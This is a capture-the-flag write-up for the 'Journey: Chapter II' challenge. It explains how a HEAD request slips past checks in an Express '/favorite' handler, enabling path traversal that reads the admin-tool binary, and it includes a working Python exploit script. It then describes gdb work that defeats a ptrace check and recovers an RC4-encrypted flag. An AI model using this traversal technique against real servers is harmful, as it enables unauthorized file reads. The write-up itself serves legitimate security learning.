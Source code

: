 # Journey: Chapter II (web/re, 384+31 pts, 5 solves)

The source of `admin.html` suggests that we are after an `admin-tool` binary:
```html
<div style="margin-top: 20px">
    Don't forget to practice remembering your Security Key PIN code with the ./admin-tool tool!
</div>
```

An arbitrary file read would be nice. One endpoint is interesting in this regard:
```javascript
app.get('/share', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })
  
    const favList = favDb.get(req.session.username)
    if (!favList || favList.length === 0)
        res.send({ err: 'favorites list is empty' })

    const result = {}
    for (const favPath of favList) {
        const [type, name] = path.relative(CONTENT_DB_PATH, favPath).split(path.sep)
        result[type] = result[type] || {}
        result[type][name.replace(".txt", "")] = fs.readFileSync(`${CONTENT_DB_PATH}/${type}/${name}`, "latin1")
    }
    const favId = crypto.randomBytes(8).toString("hex")
    await db.put(`fav_${favId}`, result)
    favDb.set(req.session.username, [])
    res.send({ favId })
})
```

Note that, even though the database stores paths, the endpoint deconstructs
the path manually, and then assembles it back together. Let's take a closer
look at how the paths get inserted into the database.

```javascript
app.get('/favorite', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })

    const { type, name, unfav } = req.query
    if (type !== "book" && type !== "quote")
        res.send({ err: 'invalid type' })

    if (name.includes("/") || name.includes(".."))
        res.send({ err: 'invalid name' })

    const itemPath = `${CONTENT_DB_PATH}/${type}/${name}.txt`
    if (!fs.existsSync(itemPath))
        res.send({ err: 'not found' })
      
    const favs = favDb.get(req.session.username) || []
    if (unfav)
        favs = favs.filter(x => x !== itemPath)
    else    
        favs.push(itemPath)
      
    favDb.set(req.session.username, favs)
    res.send({ success: true })
})
```

Damn, path traversal is detected and rejected. Except... does `res.send`
end the execution of the function? A quick local test says no, so the checks
are merely a red herring! So let's send a request with `name` set to
`../../admin-tool/x`! One `..` to exit the `quote` directory, and another to
escape `db`. `path.relative` will remove the `quote/../` part, and subsequent
code will trim the path to the first 2 components: `../admin-tool`. This avoids
the `.txt` extension.

Except... it doesn't work: `{"err":"favorites list is empty"}`.

A bit more local testing suggests that `res.send` can only be called once, and
subsequent calls will raise an exception, complaining that "the headers can
only be sent once". This means that, while we may bypass the `name` check,
`existsSync` will still prevent us from injecting the path.

We brainstormed abusing various weird filesystem behaviors, as `path.relative`
does not access the filesystem and thus doesn't know about symbolic links such
as `/proc/self/cwd`. This seems to have been a dead end.

At this point, I decided to dive into the code of `express` to look for a way
of bypassing the exception, and soon stumbled upon a hint:
```javascript
if (req.method === 'HEAD') {
  // skip body for HEAD
  this.end();
} else {
  // respond
  this.end(chunk, encoding);
}
```
It turns out that sending a HEAD request will allow us to bypass the check, though
the snippet above doesn't seem to be directly responsible for it. This lets us
fetch the `admin-tool` binary:

```python
from requests import Session
from uuid import uuid4
s = Session()
rando = str(uuid4())
print(s.post("http://journey.ctf.spamandhex.com/register", json={"password": rando, "username": rando}).content)
print(s.post("http://journey.ctf.spamandhex.com/login", json={"password": rando, "username": rando}).content)
data = {
    "type": "quote",
    "name": "../../admin-tool/x",
}
print(s.head('http://journey.ctf.spamandhex.com/favorite', params=data).content)
fav = s.get("http://journey.ctf.spamandhex.com/share").json()['favId']
print(fav)
data = (s.get('http://journey.ctf.spamandhex.com/favorites?type=..&favId=' + fav).json())
open('admin-tool', 'wb').write(data['admin-tool'].encode('latin1'))
```

A few minutes in the disassembler show that
1. The binary attempts to detect the debugger with PTRACE_TRACEME
2. Our input is encrypted with RC4 or a derivative, and ciphertexts are compared.
   The key is fixed.

I have first attempted to use a Python implementation of RC4, but the decryption
failed. I have decided that it would be more productive to extract the keystream
from the running program with gdb.

```
(gdb) b ptrace
Breakpoint 1 at 0x4005c0
(gdb) r
Starting program: /home/kuba/spamandhex/admin-tool
Journey: PIN Recovery Tool

  "All journeys have secret destinations of which the traveler is unaware."

                                                                    - Martin Buber

PIN recovery: I will tell if you still know the correct PIN or not, so you won't forget it even if you don't use it regularly. That's a great way of recovery I think!


Breakpoint 1, 0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
(gdb) fin
Run till exit from #0  0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
0x0000000000400976 in ?? ()
(gdb) x/10i $rip
=> 0x400976:    cmp    $0xffffffffffffffff,%rax
   0x40097a:    jne    0x40098f
   0x40097c:    lea    0x1e5(%rip),%rdi        # 0x400b68
   0x400983:    callq  0x400570 <puts@plt>
   0x400988:    mov    $0x1,%eax
   0x40098d:    jmp    0x400994
   0x40098f:    mov    $0x0,%eax
   0x400994:    pop    %rbp
   0x400995:    retq
   0x400996:    push   %rbp
(gdb) p $rax
$1 = -1
(gdb) set $rax=0
(gdb) b *0x400a62
Breakpoint 2 at 0x400a62
(gdb) c
Continuing.
What's your PIN? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x0000000000400a62 in ?? ()
(gdb) x/32xb 0x602160
0x602160:       0x65    0xbe    0xb8    0x98    0x7b    0x9e    0xf7    0xf9
0x602168:       0x07    0xf6    0x07    0x75    0xa9    0x94    0x44    0x62
0x602170:       0xfc    0x9e    0x47    0x41    0x9d    0x8d    0xa4    0x0f
0x602178:       0x13    0x86    0x17    0x3b    0x3f    0x82    0x82    0x69
(gdb) dump memory stream.bin 0x602160 0x602200
```

```python
binary = open('admin-tool', 'rb').read()
stream = open('stream.bin', 'rb').read()

cipher = binary[0x20c0:]
cipher = cipher[:0x70]

out = bytearray()
for b,k in zip(cipher, stream):
    out.append(b^k^65)
print(out)
# bytearray(b'SaF{It is good to have an end to journey toward; but it is the journey that matters, in the end.-2xzB4tW3}\x80G\x12\xf8{a')
```

**Post-CTF addendum:** While preparing this write-up, I have provided too few `A`
characters in the input, which resulted in the flag decryption stopping too
early. No problem&mdash;I thought&mdash;I'll just do it again.

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```

To my surprise, this resulted in a completely different keystream. I soon realized
that this must be because the breakpoint is already there when the program is starting.
After all, breakpoints are implemented by overwriting an opcode with `int3`.

The culprit is an entry in the `.init_array` section:

![Binary Ninja screenshot because copy-paste is wonky](init_array.png)

I noticed this function during the CTF, but the code looked like decompiled
`/dev/urandom` at a glance, and [the XREF panel was empty](https://github.com/Vector35/binaryninja-cloud-public/issues/123), so I concluded that it's probably a false positive.

However, further analysis reveals that it checksums most of the code section
and derives an address from the checksum, which is then patched with a `xor`.

Checking with gdb, we see that the address being patched is `0x400902`. This
corresponds to an `add` instruction in the RC4 code, which this xor turns into
a `sub`. The following change in the decoding script makes it decrypt the flag
properly without the dumped keystream:

```diff
-        K = S[(S[i] + S[j]) % 256]
+        K = S[(S[j] - S[i]) % 256]
         yield K
```

I'm quite surprised, and to be honest, somewhat disappointed, that I didn't get
to experience this mischief during the CTF.
